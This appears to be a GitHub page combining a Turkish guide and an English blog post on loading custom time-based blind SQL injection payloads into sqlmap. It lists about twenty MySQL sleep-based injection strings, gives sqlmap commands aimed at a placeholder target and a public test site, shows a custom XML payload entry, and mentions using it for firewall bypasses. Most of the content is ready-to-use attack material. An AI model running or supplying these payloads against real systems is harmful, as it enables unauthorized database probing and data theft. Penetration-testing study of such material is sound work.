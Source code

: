 # sqlmap

 SQLmap için özel bir payload dosyası oluşturmak ve bu dosyayı kullanarak SQLmap'te kişiselleştirilmiş enjeksiyon testleri yapmak mümkündür. Verdiğiniz payloadları bu yönteme entegre edeceğiz.

### Adım 1: Özel Payload Dosyası Oluşturma

Öncelikle, tüm payloadlarınızı içeren bir dosya oluşturmalısınız. Bu dosyayı `custom_payloads.txt` olarak adlandırabiliriz. Dosya içeriğini aşağıdaki gibi düzenleyin:

#### `custom_payloads.txt`

```sql
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z
if(now()=sysdate(),sleep(3),0)/*'XOR(if(now()=sysdate(),sleep(3),0))OR'"XOR(if(now()=sysdate(),sleep(3),0))OR"*/
if(now()=sysdate(),sleep(0),0)/*'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"*/
if(now()=sysdate(),sleep(9),0)/*'XOR(if(now()=sysdate(),sleep(9),0))OR'"XOR(if(now()=sysdate(),sleep(9),0))OR"*/
if(now()=sysdate(),sleep(6),0)/*'XOR(if(now()=sysdate(),sleep(6),0))OR'"XOR(if(now()=sysdate(),sleep(6),0))OR"*/
if(now()=sysdate(),sleep(10),0)/*'XOR(if(now()=sysdate(),sleep(10),0))OR'"XOR(if(now()=sysdate(),sleep(10),0))OR"*/
if(now()=sysdate(),sleep(5),0)/*'XOR(if(now()=sysdate(),sleep(5),0))OR'"XOR(if(now()=sysdate(),sleep(5),0))OR"*/
Hurlburt'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
'XOR(if(now()=sysdate(),sleep(5*5),0))OR' -- -useragent
'+(select*from(select(sleep(7*7)))a)+'
'+(select*from(select(sleep(20)))a)+'
'+(select*from(select(sleep(20+10)))a)+'
XOR(if((select/**/666/**/where/**/[RANDNUM]=[RANDNUM1]),444,0))XOR
XOR(if((select/**/666/**/where/**/[RANDNUM]=[RANDNUM]),444,0))XOR
XOR(if((select/**/666/**/where/**/[INFERENCE]),444,0))XOR
```

### Adım 2: SQLmap Komutunu Kullanın

Özel payload dosyasını kullanarak SQLmap'te test yapmak için aşağıdaki komutu kullanabilirsiniz:

```bash
sqlmap -u "http://hedefsite.com/vulnerable_page.php?id=1" --dbms=mysql --technique=T --load-payloads=custom_payloads.txt --time-sec=10 --headers="Referer: http://www.google.com/search?hl=en&q=*"
```

**Komut Açıklamaları:**

- **--load-payloads=custom_payloads.txt**: Özel payload dosyasını belirtir.
- **--time-sec=10**: SQLmap'in bekleme süresini 10 saniye olarak ayarlar.
- **--headers**: Enjekte edilecek başlıkları belirtir (örneğin, `Referer`).

### Adım 3: Test Sonuçlarını Kontrol Etme

SQLmap çalıştırıldığında, özel payloadları kullanarak hedefteki SQL enjeksiyon güvenlik açıklarını test edecektir. Sonuçları gözlemleyerek hangi payloadların başarılı olduğunu ve hedefin yanıt süresine göre hangilerinin en etkili olduğunu değerlendirebilirsiniz.

### Sonuç

Bu yöntemle, SQLmap'te kendi belirttiğiniz özel payloadları kullanarak kişiselleştirilmiş SQL enjeksiyon testleri yapabilirsiniz. SQLmap'in mevcut seçeneklerini ve parametrelerini kullanarak test sürecinizi daha da optimize edebilirsiniz.

_______________________________________

Advanced SQLMap Customization
Posted on July 8, 2024 Updated on June 21, 2024 by otterly
Do you know that you can add custom payloads to the SQLMap? This tool is powerful out of the box, but with advanced customization, you can unleash its full potential! Let’s get ready to improve your SQL injection automation skills!


Introduction
There are many ways people usually customize SQLmap like using extra headers, random user agents, tampering scripts, or delays between requests. Fine-tuning those options could sometimes help to fuzz specific endpoints or avoid Web Application Firewall rules. Although this tool is pretty good by its defaults, you could still add your own twist to it. Certain configuration files describe the payloads the SQLMap sends. For different people, those configuration files might be in different locations. It depends on which operating system you use, how you install it, do you already have it in your OS (like Kali Linux, or ParrotOS), etc.

Locating Configuration Files in GitHub
What it comes down to, are those particular XML files that have their payload described. As we can see on the GitHub sqlmap repository right here:


There are different types of SQL injection payloads described in each of the files. For example, let’s look into the boolean_blind.xml file:


This file does contain the most explanation of how you can build your own SQLmap query. It does contain a comment where it actually explains everything that you need to do. There is a <root> and inside that <root>, there are multiple test cases written:


Test Case XML Object Explanation
Each of the defined cases will have:

<title> – the name of the test.

<stype> – numerically defines the test type. There are multiple values that you can write down – if you are constructing Boolean-Based SQL injection it will be the value of 1, error-based – 2… Inside different types of files, there will be S types of different numbers:



The important thing to note is that if you want to select a different sqlmap type of attack, you can do this with the –technique=T flag, where the value is the first letter of the SQL injection attack. For example, T – stands for Time-based, B – Boolean, E – Error-based, etc. It doesn’t mean that sqlmap will run all the queries of that file because there are other things like level.

<level> – describes how many requests the program will execute. The higher the level, the more payloads will be selected from the file. It will pick the level selected with command –level and lower levels. For example, if you specified –level=3 in the command, it will filter payloads with levels 1, 2, and 3.

<risk> – defines the likelihood of payload to damage data Integrity. If you specify –risk=3 in your CLI sqlmap query, it will run the highest risk queries – those queries have a likelihood that you could destroy something on the server. I highly recommend not doing this on production servers. If it’s a UAT, testing, or staging environment – you’re good to go.

<vector> – specify your payload here.

Other objects will depend on the attack type, so I suggest just copying the following payload and doing something similar.

Locating Payload Configuration Locally
We’re going to be building a time-based query. Let’s open the time_blind.xml file, as it could give us some headstart. I suggest copying the first query for replacing the values later on for your custom payload:


Time to locate the file. There could be different file paths where you could find time_blind.xml locally:

If you installed it from the source, it will be located under sqlmap/data/xml/payloads/time_blind.xml
If you used pip3 to install it, it will be in your home directory, in the .local directory, and its subdirectories depending on your python and pip version.
If you use package managers like APT using Ubuntu, Kali Linux, or Parrot OS, it will be installed somewhere under /usr/share directory.
I suggest using the find command in case you having difficulties locating it:

find / -name time_blind.xml -type f 2>/dev/null
find – the command to search for the file.
/ – specifies the starting point of the search.
-name time_blind.xml – the filename of what we are looking for.
-type f – specify that we are looking file, not a directory.
2>/dev/null – suppress the “Permission denied” errors.
In my case, this file was located under the /usr/share/sqlmap/data/xml/payloads directory:


Building Custom Payload
I have already edited that file and added the following payload which took inspiration from GitHub:

<test>
    <title>XOR time-based blind (query SLEEP)</title>
    <stype>5</stype>
    <level>1</level>
    <risk>1</risk>
    <clause>1,2,3,8,9</clause>
    <where>1</where>
    <vector>[RANDNUM]'XOR(if(now()=sysdate(),sleep([SLEEPTIME]),0))XOR'[RANDSTR]</vector>
    <request>
        <payload>[RANDNUM]'XOR(if(now()=sysdate(),sleep([SLEEPTIME]),0))XOR'[RANDSTR]</payload>
    </request>
    <response>
        <time>[SLEEPTIME]</time>
    </response>
</test>
I have pasted this at the top of the file under <root>:


It is the XOR time-based blind sleep query. The <stype> is 5 since all time-based payloads use this. The <risk> and <level > are 1 because by default the sqlmap will use the lowest level and risk possible. The <clause> and <payload> I copied from the following <test> case and I have replaced it to use the unique query. You can see that there are some variables being used such as [RANDNUM], [SLEEPTIME], and [RANDSTR] that are pretty self-explanatory:

[RANDNUM] – this variable will randomize a number.
[RANDSTR] – will randomize a string.
[SLEEPTIME] – will pick a random time for sleep query, unless you specify it with the –time-sec option.
Running Custom SQLMap Payload
If you want to run only this specific query, it won’t be possible. But you can limit the requests sent together with your newly constructed test case. To make sure that this query will be run you should do the following command:

sqlmap -u 'http://testphp.vulnweb.com/listproducts.php?cat=1' --technique=T
In this case, it will hit the XOR time-based blind (query SLEEP) test case since it uses the level and risk of 1 as it comes by default of sqlmap:


Additionally, I also recommend adding –proxy=http://127.0.0.1:8080 value to the end of sqlmap command, in case you want to see the requests sent to the website.

Last Things
Hopefully, you learned something new and you could use this for some WAF bypasses as well. Thank you for stopping by and enjoy the journey!

If you find this information useful, please share this article on your social media, I will greatly appreciate it! I am active on Twitter, check out some content I post there daily! If you are interested in video content, check my YouTube. Also, if you want to reach me personally, you can visit my Discord server. Cheers!

Share with your friends
